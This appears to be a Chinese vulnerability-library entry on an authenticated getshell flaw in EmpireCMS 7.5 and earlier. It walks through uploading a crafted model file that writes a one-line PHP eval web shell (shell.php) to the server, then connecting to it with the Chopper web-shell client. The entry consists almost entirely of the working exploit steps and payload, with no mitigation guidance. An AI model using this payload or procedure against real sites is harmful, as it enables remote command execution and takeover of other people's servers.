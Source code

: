 ```yaml
---
title: 'EmpireCMS-V7.5后台getshell漏洞.assets'
date: Wed, 09 Sep 2020 16:39:03 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

EmpireCMS <= 7.5

### 漏洞验证

1.进入后台如下界面，点击导入系统模型 ![](EmpireCMS%20V7.5%E5%90%8E%E5%8F%B0getshell%E6%BC%8F%E6%B4%9E/15996690221.png) 2.构造文件a.mod,内容如下

```
<?php file_put_contents("shell.php","<?php @eval(\$_POST[cmd]);?>");?>
```

3.上传文件a.mod ![](EmpireCMS%20V7.5%E5%90%8E%E5%8F%B0getshell%E6%BC%8F%E6%B4%9E/15996691631.png) 4.查看文件已经有shell.php了，菜刀连接即可 ![](EmpireCMS%20V7.5%E5%90%8E%E5%8F%B0getshell%E6%BC%8F%E6%B4%9E/YZ2MSEV1TXX7J08ZXCA01.png)